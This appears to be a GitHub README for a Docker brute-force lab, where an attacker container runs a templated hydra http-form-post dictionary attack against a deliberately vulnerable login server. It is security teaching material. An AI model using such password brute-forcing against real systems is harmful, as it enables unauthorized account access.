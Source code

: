 # Brute force laboratory

## Description

This repository replicates a controlled environment where a brute force attack is practiced on a vulnerable server. Docker was used to facilitate the distribution of the project.

## Architecture

...

## Usage

1. clone repo.

   ```bash
   git@github.com:Branyoe/brute-force_lab.git
   ```
2. run compose app.

   ```bash
   docker compose up -d
   ```
3. paste your dictionary.txt file in the dictionaries directory.
4. watch attacked container logs.

   ```bash
   docker logs attacked -f
   ```
5. in another console instance, inspect docker compose network to see attacked container IP.

   ```bash
   docker network inspect brute-force_lab_default
   ```
   ...
6. in another console instance, access to attacker container console.

   ```bash
   docker exec -it attacker /bin/bash
   ```
7. run attack.

   ```bash
   hydra \
   -l <target_user> \
   -P /dictionaries/<dictionary_name>.txt \
   <target_ip> -s <target_port> \
   http-form-post \
   "/<target_endpoint>:<body_req_user_key>=<target_user>&<body_req_password_key>=^PASS^:<successfully_msg>"
   ```
   ...
8. espected result.
   ...
